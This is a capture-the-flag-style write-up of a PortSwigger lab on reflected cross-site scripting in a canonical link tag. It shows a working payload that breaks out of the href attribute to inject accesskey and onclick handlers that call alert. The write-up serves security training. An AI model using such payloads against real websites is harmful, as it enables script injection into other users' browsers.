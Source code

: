 # Reflected XSS in canonical link tag



## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag), you'll learn: Reflected XSS in canonical link tag! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab reflects user input in a canonical link tag and escapes angle brackets.

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack on the home page that injects an attribute that calls the `alert` function.

To assist with your exploit, you can assume that the simulated user will press the following key combinations:

- `ALT+SHIFT+X`
- `CTRL+ALT+X`
- `Alt+X`

Please note that the intended solution to this lab is only possible in Chrome.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-20/images/Pasted%20image%2020221231083133.png)

**View source page:**
```html
<head>
    <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
    <link href=/resources/css/labsBlog.css rel=stylesheet>
    <link rel="canonical" href='https://0a2200b504a6441cc040ccd100c20002.web-security-academy.net/'/>
    <title>Reflected XSS in canonical link tag</title>
</head>
```

In here, we can see that there is a `<link>` tag is using **canonical** link tag.

**To exploit it, we can try to inject `accesskey` attribute with an `onclick` event:**
```html
/?'accesskey='x'onclick='alert(document.domain)
```

**Result:**
```html
<link rel="canonical" href='https://0a2200b504a6441cc040ccd100c20002.web-security-academy.net/?'accesskey='x'onclick='alert(document.domain)'/>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-20/images/Pasted%20image%2020221231084750.png)

Nice!

# What we've learned:

1. Reflected XSS in canonical link tag